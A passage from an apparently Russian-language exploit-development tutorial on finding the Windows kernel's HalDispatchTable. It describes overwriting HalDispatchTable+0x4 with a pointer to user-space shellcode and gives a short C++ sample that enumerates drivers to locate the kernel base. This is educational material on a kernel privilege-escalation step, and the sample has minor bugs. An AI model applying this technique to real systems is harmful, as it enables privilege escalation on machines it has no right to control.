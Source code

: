 ### [](#header-3)Способы найти HalDispatchTable

1) Энумерируем все адреса драйверов с помощью EnumDeviceDrivers()

2) Ищем среди них адрес `ntoskrnl` (ntoskrnl.exe экспортирует KeQueryIntervalProfile())

3) Передаем хендл на ntoskrnl.exe в LoadLibraryExA и затем энумерируем адрес HalDispatchTable с помощью GetProcAddress 

4) Как только адрес HalDispatchTable найден, мы можем посчитать адрес HalDispatchTable + 0x4 (добавив 4 байта) и переписать адрес на адрес нашего шеллкода в юзерспейсе.

4 байта добавляем, потому что по структуре HalDispatchTable в первых 4/8 байтах версия

![Handles](/assets/post_images/1.png)

```cpp
#include <Windows.h>
#include <psapi.h>
#include <tchar.h>
#include <stdio.h>

#define ARRAY_SIZE 1024

int main() {
    LPVOID drivers[ARRAY_SIZE];
    DWORD cbNeeded;
    int cDrivers, i;

    if (EnumDeviceDrivers(drivers, sizeof(drivers), &cbNeeded) & cbNeeded < sizeof(drivers)) {
        TCHAR szDriver[ARRAY_SIZE];

        cDrivers = cbNeeded / sizeof(drivers[0]);

        printf("There are %d drivers:\n", cDrivers);
        for (i = 0; i < cDrivers; i++) {
            if (GetDeviceDriverBaseName(drivers[i], szDriver, sizeof(szDriver) / sizeof(szDriver[0]))) {
                //printf(" - %ws - \n", (const WCHAR *)szDriver);
                //printf("%ls : %ls\n", szDriver, TEXT("ntkrnlpa.exe"));
                if (!wcscmp(szDriver, TEXT("ntkrnlpa.exe"))) {
                    printf("%p: %ls\n", drivers[i], szDriver);
                }
                //printf("Skipped!\n");
            }
        }
    }
    else {
        printf("EnumDeviceDrivers failed; array size needed is %d\n", cbNeeded / sizeof(LPVOID));
        return 1;
    }

    return 0;
}
```
